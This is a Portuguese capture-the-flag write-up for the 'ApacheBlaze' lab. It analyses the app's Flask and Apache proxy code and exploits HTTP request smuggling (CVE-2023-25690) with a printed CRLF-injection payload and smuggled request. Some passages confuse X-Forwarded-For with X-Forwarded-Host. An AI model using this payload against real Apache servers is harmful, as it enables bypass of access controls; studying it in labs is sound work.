


# ApacheBlaze

> Adentre o universo ApacheBlaze, um mundo de jogos arcade de clique. Há rumores de que ao jogar certos jogos, você tem a chance de ganhar um grande prêmio. Entretanto, antes de se divertir, você precisará solucionar o puzzle.

De acordo com a descrição do desafio, aparentemente temos que encontrar um grande prêmio escondido em algum jogo.

## Reconhecimento

Na página inicial, temos uma listagem de jogos disponíveis.

<figure><figcaption><p>ApacheBlaze - Página inicial da aplicação</p></figcaption></figure>

Repare no último jogo, **Click topia**. Sua descrição sugere que ele nos dará a flag. Como o desafio fornece o código-fonte, podemos analisar para tentar entender o que acontece ao clicar nesse jogo.


```python
from flask import Flask, request, jsonify

# Cria uma instância do Flask
app = Flask(__name__)

# Configurações da aplicação
app.config['GAMES'] = {'magic_click', 'click_mania', 'hyper_clicker', 'click_topia'}  # Jogos disponíveis
app.config['FLAG'] = 'HTB{f4k3_fl4g_f0r_t3st1ng}'  # Flag para o jogo 'click_topia'

@app.route('/', methods=['GET'])
def index():
    # Obtém o nome do jogo a partir dos parâmetros da URL
    game = request.args.get('game')

    # Verifica se o nome do jogo foi fornecido
    if not game:
        return jsonify({
            'error': 'Empty game name is not supported!.'  # Retorna erro se o nome do jogo estiver vazio
        }), 400
        # Verifica se o jogo está na lista de jogos disponíveis
    elif game not in app.config['GAMES']:
        return jsonify({
            'error': 'Invalid game name!'  # Retorna erro se o jogo não for válido
        }), 400
    # Verifica se o jogo é 'click_topia'
    elif game == 'click_topia':
        print(request.headers)
        # Verifica se o cabeçalho 'X-Forwarded-Host' é 'dev.apacheblaze.local'
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'  # Retorna a flag se a condição for atendida
            }), 200
        else:
            return jsonify({
                'message': 'This game is currently available only from dev.apacheblaze.local.', # Mensagem se a condição não for atendida
                'X-Forwarded-Host': request.headers.get('X-Forwarded-Host')  # Retorna o cabeçalho 'X-Forwarded-Host'
            }), 200

    # Caso o jogo não seja 'click_topia'
    else:
        return jsonify({
            'message': 'This game is currently unavailable due to internal maintenance.'  # Mensagem de manutenção
        }), 200
        
```


Perceba que a aplicação realiza uma validação utilizando o cabeçalho `X-Forwarded-Host`. Caso a requisição contenha esse cabeçalho com o valor `dev.apacheblaze.local`, a flag é retornada como JSON. Podemos, então, tentar realizar a requisição passando esse cabeçalho como parâmetro:

<figure><figcaption><p>ApacheBlaze - Requisição definindo o cabeçalho "X-Forwarded-For"</p></figcaption></figure>

Infelizmente essa tentativa não foi bem sucedida. Podemos alterar o código-fonte e fazer a aplicação retornar os cabeçalhos após uma requisição.


```json
{
  "X-Forwarded-Host": "dev.apacheblaze.local, localhost:1337, 127.0.0.1:8080",
  "message": "This game is currently available only from dev.apacheblaze.local."
}
```


E observe que o valor do cabeçalho `X-Forwarded-Host` contém o valor que informamos, porém são adicionados outros dois endereços separados por vírgula. Esse comportamento se deve por conta de a aplicação ter configurado um proxy reverso através do Apache. Podemos encontrar essa configuração definida dentre os arquivos do código-fonte:


```apacheconf
...SNIP
# Define um VirtualHost que escuta na porta 1337.
<VirtualHost *:1337>

    # Define o nome do servidor para este VirtualHost.
    ServerName _

    # Define o diretório raiz dos documentos para este VirtualHost.
    DocumentRoot /usr/local/apache2/htdocs

    # Habilita o mecanismo de reescrita de URLs.
    RewriteEngine on

    # Define uma regra de reescrita que redireciona solicitações para /api/games/ para o backend na porta 8080.
    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]

    # Define a configuração de ProxyPassReverse para ajustar os cabeçalhos de resposta do backend.
    ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"

</VirtualHost>
SNIP...
```


Por conta disso, a cada redirecionamento do proxy (de acordo com a documentação do [mod\_proxy](https://httpd.apache.org/docs/2.4/mod/mod\_proxy.html)) o Apache inclui o endereço de origem no cabeçalho `X-Forwarded-Host`.  Ou seja, precisamos de uma forma de contornar isso e definir o endereço do host como o endereço que a aplicação valida (`dev.apacheblaze.local`).

## Exploração

Pesquisando um pouco, foi possível encontrar uma vulnerabilidade de HTTP Request Smuggling ([CVE-2023-25690](https://github.com/dhmosfunk/CVE-2023-25690-POC)) associada ao Apache, e a versão que é utilizada na aplicação (2.4.55) ainda não recebeu a correção. Dessa forma, podemos explorar essa vulnerabilidade para definir o valor do cabeçalho `Host` como `dev.apacheblaze.local`. Isso é possível prefixando a URL da requisição com o payload malicioso, que seria o seguinte:

```http
%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/
```

Esse payload aproveita dos caracteres CR e LF para inserir uma outra requisição junto da requisição genuína.

## Prova de Conceito

Prefixando a requisição genuína com o payload malicioso, obtemos o seguinte resultado:

```http
GET http://dev.apacheblaze.local/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.62.198:33097
```

Essa requisição é interpretada pelo back-end como duas requisições, da seguinte forma:

```http
GET http://dev.apacheblaze.local/api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local

GET/ HTTP/1.1
Host: 94.237.62.198:33097
```

Perceba que ao trocarmos os caracteres URL-encoded por sua versão não codificada, obtemos o resultado acima. Isso faz com que a aplicação processe a primeira requisição injetando o valor do cabeçalho `Host` no cabeçalho `X-Forwarded-For`, que nesse caso fica como `dev.apacheblaze.local` e retorna a flag com sucesso.
